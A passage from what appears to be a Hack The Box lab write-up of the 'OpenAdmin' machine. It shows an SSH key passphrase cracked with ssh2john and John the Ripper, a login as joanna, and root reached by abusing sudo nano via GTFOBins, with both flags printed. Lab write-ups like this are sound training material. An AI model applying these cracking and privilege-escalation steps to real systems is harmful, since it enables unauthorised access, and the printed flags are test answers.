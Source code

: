 ```bash
$ /usr/share/john/ssh2john.py joanna_rsa > joanna_rsa.john
$ john joanna_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 12 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (joanna_rsa)
1g 0:00:00:01 DONE (2021-01-01 22:27) 0.5586g/s 8012Kp/s 8012Kc/s 8012KC/s  0125457423 ..*7¡Vamos!
Session completed
```

`bloodninjas` is `joanna_rsa`'s password. We can now log in as **joanna**.

![ssh joanna](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/openadmin/bloodninjas.png)

- **joanna**'s flag:

```bash
joanna@openadmin:~$ cat user.txt 
c9b2cf07d40807e62af62660f0c81b5f
```

## Root

Now this is pretty straightforward since we saw earlier that `joanna` can run `nano` with `sudo` _(thanks to linpeas)_.

![sudo -l](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/openadmin/sudo-l.png)

We just have to check [GTFOBins - nano](https://gtfobins.github.io/gtfobins/nano/) to find a way to privesc.

![GTFOBins - sudo nano](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/openadmin/gtfo-nano.png)

And we got **root**'s flag (`2f907ed450b361b2c2bf4e8795d5b561`):

![root flag](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/openadmin/root-flag.png)
___

## Useful links

- [ona-rce](https://github.com/amriunix/ona-rce)
- [MySQl commands](http://g2pc1.bu.edu/~qzpeng/manual/MySQL%20Commands.htm)
- [Hashes length](https://www.mobilefish.com/services/hash_generator/hash_generator.php)
- [Upgrading to a fully interactive reverse shell](https://www.boiteaklou.fr/Fully-interactive-reverse-shell.html)
- [SSH Port Forwarding Example](https://www.ssh.com/ssh/tunneling/example)
- [GTFOBins - nano](https://gtfobins.github.io/gtfobins/nano/)